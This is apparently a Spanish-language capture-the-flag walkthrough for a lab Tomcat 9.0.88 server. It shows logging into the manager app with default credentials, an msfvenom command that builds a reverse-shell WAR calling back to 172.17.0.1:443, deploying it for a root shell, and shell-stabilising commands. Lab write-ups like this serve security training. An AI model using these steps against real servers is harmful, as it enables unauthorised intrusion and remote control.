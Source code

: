 
![image](https://github.com/user-attachments/assets/d0eee424-55c4-47af-8a46-cb9500efbb77)

nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/8489fc06-5080-43b6-803b-d0aaef574de0)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/6f3bfbf0-bb14-48c1-bb7a-71101acce2f4)

> las credenciales: tomcat/s3cr3t

entramos al "manager app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/38e15592-832a-4c5f-996e-0bcdcf2e1a19)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war

lo lanzamos y nos crea un:   revshell.war

![image](https://github.com/user-attachments/assets/973132b0-0212-4472-9b61-d4f0c763c3eb)


lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell

![image](https://github.com/user-attachments/assets/172fadd7-9f49-4382-8780-97003c4aff0f)


>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!

![image](https://github.com/user-attachments/assets/bffb11dd-3dd1-4df3-844b-205beb224f66)


hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:

![image](https://github.com/user-attachments/assets/fbdfd381-a7b5-4a87-9cef-48ba1f5e5e33)

